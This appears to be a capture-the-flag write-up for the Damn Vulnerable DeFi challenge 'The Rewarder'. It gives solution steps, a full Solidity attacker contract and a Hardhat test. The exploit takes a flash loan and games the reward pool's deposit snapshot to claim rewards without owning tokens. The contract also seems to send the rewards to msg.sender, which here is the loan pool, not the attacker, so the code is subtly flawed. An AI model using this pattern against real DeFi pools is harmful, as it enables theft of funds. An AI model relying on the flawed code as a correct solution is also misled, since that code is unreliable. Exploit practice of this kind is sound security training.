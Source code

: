 # #5 The Rewarder Damn Vulnerable Defi

## Goals

=> There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

=> Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

=> You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

=> By the way, rumours say a new pool has just launched. Isn’t it offering flash loans of DVT tokens?

### Hints

- None

### Solution

- Advance the evm time by 5 days so the new payout round takes place

- Create a contract that takes a Flashloan for the 1 million liquidity tokens

- When the contract receives the Flashloan we need to approve the rewarder pool for our tokens and send the tokens via deposit to the rewarder pool

- We get rewarded with rewardToken

- Then withdraw the deposited liquidity tokens to send them back to the flash loan pool

### Attacker Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./FlashLoanerPool.sol";
import "./TheRewarderPool.sol";
import "./RewardToken.sol";
import "../DamnValuableToken.sol";

contract RewarderAttacker {
    RewardToken public rewardToken;
    FlashLoanerPool public loanerPool;
    TheRewarderPool public rewarderPool;
    DamnValuableToken public immutable liquidityToken;

    constructor(
        address _rewardToken,
        address _loanerPool,
        address _rewarderPool,
        address liquidityTokenAddress
    ) {
        rewardToken = RewardToken(_rewardToken);
        loanerPool = FlashLoanerPool(_loanerPool);
        rewarderPool = TheRewarderPool(_rewarderPool);
        liquidityToken = DamnValuableToken(liquidityTokenAddress);
        // take flashLoan for 1 mil Token
    }

    function attack() external {
        loanerPool.flashLoan(1_000_000 ether);
    }

    // gets called by FlashLoanPool contract
    function receiveFlashLoan(uint256 amount) external {
        uint256 balance = liquidityToken.balanceOf(address(this));
        liquidityToken.approve(address(rewarderPool), balance);
        rewarderPool.deposit(balance);
        rewarderPool.withdraw(balance);
        // Return funds to pool
        liquidityToken.transfer(address(loanerPool), amount);
        // transfer rewards to attackerWallet
        rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
    }
}
```

### Test

```javascript
it('Execution', async function () {
	await ethers.provider.send('evm_increaseTime', [5 * 24 * 60 * 60]); // 5 days
	const AttackerFactory = await ethers.getContractFactory('RewarderAttacker', deployer);
	const attacker = await AttackerFactory.deploy(
		rewardToken.address,
		flashLoanPool.address,
		rewarderPool.address,
		liquidityToken.address
	);
	const attackTx = await attacker.connect(player).attack();
	await attackTx.wait();
});
```
